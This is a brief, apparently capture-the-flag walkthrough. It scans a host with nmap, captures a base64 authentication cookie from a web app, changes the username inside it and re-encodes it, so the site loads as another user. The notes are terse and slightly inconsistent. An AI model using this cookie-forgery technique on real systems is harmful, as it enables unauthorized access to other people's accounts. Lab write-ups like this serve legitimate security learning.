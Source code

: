 ## nmap

 <code> sudo nmap -A ip </code> 
 3 open ports

http://ip:3000

## register
## login

#capture the cookie using burpsutie or firefox

authid=YWJjdjRlcjlsbDEhc3M%3D

## decode the above cookie using 
https://www.base64decode.org/

decoded=abcv4er9ll1!ss7

fixed = v4er9ll1!ss7

## encode the below text using base64
mcinventoryv4er9ll1!ss > bWNpbnZlbnRvcnl2NGVyOWxsMSFzcw==

## replace and load the website using new cookie 
firewall
